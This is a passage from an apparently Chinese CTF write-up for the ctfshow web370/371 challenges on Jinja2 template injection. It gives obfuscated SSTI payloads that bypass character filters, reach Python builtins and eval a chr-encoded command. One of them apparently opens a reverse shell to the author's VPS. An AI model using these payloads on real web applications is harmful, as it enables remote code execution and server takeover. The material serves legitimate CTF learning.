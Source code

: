 ```
e)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(e)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeee)%2bchr(eeeeee)%2bchr(eeeeee)%2bchr(eeeeeeeeeeee)%2bchr(eeeee)%2bchr(eeeeeeeee)%2bchr(eeeeeeeee)%2bchr(eeeeeeeee)%2bchr(eeeee)%2bchr(eeeeeeee)%2bchr(eeeeeeeeeeee)%2bchr(eeeeeee)%2bchr(eeeee)%2bchr(eeeeeeee)%2bchr(eeeeeeeeeee)%2bchr(eeeeeeeeeee)%2bchr(eeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeee)%2bchr(eeeeeee)%2bchr(eeeeeeeee)%2bchr(eeeeeeeeee)%2bchr(eeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(e)%2bchr(eeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeee)%2bchr(ee)%2bchr(eeee)%2bchr(eeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeee)%2bchr(eee)%2bchr(eeee)%20%}%20{%if%20x.eval(cmd)%}%20abc%20{%endif%}
```

然后到vps上监听本地对应端口得到flag

![image-20240307191509614](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240307191509614.png)

{% endraw %}

{% raw %}

### [web371]过滤''、""、[、args、_、os、{{、request、数字、{%print

{% endraw %}

#### payload1：web370反弹shell

#### payload2：payload固定，里面的一部分`cmd`用脚本生成

{% raw %}

payload：

```
?name=
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=【xxx】
%}
{百分号if x.eval(cmd)%}
abc
{百分号endif百分号}
```

{% endraw %}
